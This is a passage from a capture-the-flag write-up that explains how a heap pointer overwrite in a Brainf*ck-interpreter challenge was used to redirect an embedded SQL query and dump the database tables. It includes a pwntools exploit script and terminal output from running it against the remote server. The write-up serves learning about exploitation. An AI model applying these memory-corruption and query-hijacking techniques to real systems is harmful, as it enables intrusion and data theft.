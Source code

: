 TIMESTAMP = Sun Dec 31 00:46:27 2023

TAPESTATE = |0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|

[<font color="#0071FF"><b>*</b></font>] Got EOF while reading in interactive
<font color="#C01C28"><b>$</b></font> <span style="background-color:#FFFFFF"><font color="#1E1E1E"> </font></span>
</code></pre>

### Finding the flag

This was pretty disappointing and I got stuck here for a while.
Later, I figured that surely the `todo_delete_this.db` comment isn't just a red herring and the flag might be in a different table.
I noticed that each `BFTask` instance has its own copy of the SQL query command stored inside an `std::string`, so we can overwrite the pointer in a similar way to make it point to our own SQL command.
I modified the Brainf\*ck program to also overwrite the pointer to the SQL command, and [Aplet123](https://aplet.me/) gave me a query that lists the tables.
The SQL command had to not contain any spaces, since the Brainf\*ck program was read from `std::cin` using the `>>` operator, which doesn't read whitespace.
The script now looks like this:

```python
# Overwrite database file name and SQL query
r.sendlineafter(b'>> ', b'1')  # Create new VM
r.sendlineafter(b' ? ', b'y')  # Enable backups so that database will be dumped
pl = b'<' * 0x650 + b',>' * 8 + b'<' * 0x30 + b',>' * 8 + b'SELECT*FROM`sqlite_master`;--todo_delete_this.db\0'
# Pad to fixed size so heap layout doesn't change
assert len(pl) <= 10000
pl = pl.ljust(10000, b'A')
r.sendlineafter(b'): ', pl)
# Send database file name address
for b in p64(leek + 0x16cd):
   r.sendline(bytes([b]))
# Send SQL query address
for b in p64(leek + 0x25c0):
   r.sendline(bytes([b]))

# Exit the program so that the backup will be performed
r.sendlineafter(b'>> ', b'3')

r.interactive()
```

When I ran it on remote, I got a bunch of output with the flag near the end:

<pre><code>[alex@ctf chal]$ ./solve.py REMOTE
[<font color="#A2734C"><b>!</b></font>] Could not populate PLT: module &apos;unicorn&apos; has no attribute &apos;UC_ARCH_RISCV&apos;
[<font color="#005DD0"><b>*</b></font>] &apos;/home/alex/brainflop/chal/challenge_patched&apos;
    Arch:     amd64-64-little
    RELRO:    <font color="#A2734C">Partial RELRO</font>
    Stack:    <font color="#C01C28">No canary found</font>
    NX:       <font color="#26A269">NX enabled</font>
    PIE:      <font color="#26A269">PIE enabled</font>
    RUNPATH:  <font color="#C01C28">b&apos;.&apos;</font>
[<font color="#A2734C"><b>!</b></font>] Could not populate PLT: module &apos;unicorn&apos; has no attribute &apos;UC_ARCH_RISCV&apos;
[<font color="#005DD0"><b>*</b></font>] &apos;/home/alex/brainflop/chal/libc.so.6&apos;
    Arch:     amd64-64-little
    RELRO:    <font color="#A2734C">Partial RELRO</font>
    Stack:    <font color="#26A269">Canary found</font>
    NX:       <font color="#26A269">NX enabled</font>
    PIE:      <font color="#26A269">PIE enabled</font>
